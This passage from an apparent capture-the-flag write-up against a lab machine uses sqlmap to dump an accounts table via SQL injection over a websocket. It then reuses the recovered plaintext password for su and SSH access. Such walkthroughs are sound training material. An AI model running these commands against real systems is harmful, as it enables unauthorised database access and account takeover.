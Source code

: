 In general, with boolean and time-based SQL injections, I want to be careful
about dumping tons of data, as it will be very slow. That said, since there’s
only one table, I want the entire thing, so I’ll replace `--tables` with `-T
accounts` and add `--dump`. It dumps the table:

    
    
    oxdf@hacky$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
    ...[snip]...
    Database: soccer_db
    Table: accounts
    [1 entry]
    +------+-------------------+----------------------+----------+
    | id   | email             | password             | username |
    +------+-------------------+----------------------+----------+
    | 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
    +------+-------------------+----------------------+----------+
    ...[snip]...
    

The user is player and the password is in plaintext.

### su / SSH

That password works for the player user on the box with `su`:

    
    
    www-data@soccer:/home/player$ su player -
    Password: 
    player@soccer:~$
    

It works for SSH as well:

    
    
    oxdf@hacky$ sshpass -p PlayerOftheMatch2022 ssh player@soccer.htb
    Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
    ...[snip]...
    player@soccer:~$
    

Either way I’ll grab `user.txt`:

    
    
    player@soccer:~$ cat user.txt
    df7f36e9************************
    

## Shell as root

### Enumeration

#### sudo / doas
